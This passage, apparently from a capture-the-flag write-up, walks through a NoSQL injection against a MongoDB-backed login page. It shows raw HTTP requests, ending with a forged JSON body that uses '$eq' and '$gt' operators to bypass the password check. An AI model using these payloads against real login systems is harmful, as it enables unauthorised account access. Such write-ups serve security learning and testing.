 When we go to login to SuperGnome we receive the following POST request

{% highlight bash %}
POST / HTTP/1.1

Host: 52.64.191.71

Content-Type: application/x-www-form-urlencoded

[SNIP]

username=user&password=user
{% endhighlight %}

Unfortunately we are not posting 'application/json' as our content type so are unable to perform actions such as off the shelf usage of '$gt' to compare to an empty string as described [here](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html).

{% highlight bash %}
POST / HTTP/1.1

Host: 52.64.191.71

Content-Type: application/x-www-form-urlencoded

[SNIP]

username=admin&password[$gt]=
{% endhighlight %}

I then tried to do more complicated queries and [Petko](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html) had another article on attacking MongoDB! 

I was still not able to do anything meaningful here and decided to attempt to forge the Content-Type myself to "application/json". 

{% highlight bash %}
POST / HTTP/1.1

Host: 52.64.191.71

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://52.64.191.71/

Cookie: sessionid=nPDwNCN86OtQDxYi7cCW

Connection: keep-alive

Content-Type: application/json

Content-Length: 25

{
    "username": {"$eq": "admin"},
    "password": {"$gt": ""}
}
{% endhighlight %}

